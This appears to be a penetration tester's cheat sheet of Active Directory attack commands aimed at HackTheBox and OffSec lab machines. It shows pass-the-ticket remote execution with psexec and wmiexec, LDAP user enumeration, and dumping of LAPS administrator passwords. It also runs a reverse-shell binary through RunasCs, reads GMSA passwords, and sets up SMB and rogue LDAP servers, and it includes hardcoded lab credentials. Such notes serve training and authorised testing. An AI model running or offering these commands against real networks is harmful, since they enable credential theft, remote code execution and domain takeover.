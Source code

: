 **psexec**
```bash
# authenticate with ticket
KRB5CCNAME=administrator.ccache psexec.py -k -no-pass administrator@dc.intelligence.htb 
```

**wmiexec**
```bash
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

### LDAPSearch focus on samaccount and description
```bash
# unauthenticated
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec' -s base namingcontexts
ldapsearch -x -H ldap://10.10.10.248 -D 'intelligence\Tiffany.Molina' -w 'NewIntelligenceCorpUser9876' -b "DC=intelligence,DC=htb" -s sub "(&(objectclass=user))"
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec'  -b 'DC=hutch,DC=offsec' > ldap_search.txt
--> If we get the results
  # cat ldap_search.txt | grep -i "samaccountname" > raw_users.txt
  # cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
  # user users.txt with kerbrute 

# authenticated(LAPS found from SYSVOL)
ldapsearch -x -H 'ldap://192.168.216.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

# Grab usernames(but could be risky based on vulnlab baby)
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec'  -b 'DC=hutch,DC=offsec' | awk -F: '{ print $2 }' |  awk '{ gsub(/ /,""); print }'
```


### Invoke-RunasCs.ps1
```bash
. .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command .\revshell443.exe
```

### GMSAPasswordReader
```bash
.\GMSAPasswordReader.exe --accountname svc_apache$
```

### smbserver
```bash
sudo smbserver.py -smb2support share $(pwd)
sudo smbserver.py -smb2support share $(pwd) -user kali -password kali
```

### Rogue LDAP Server
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```
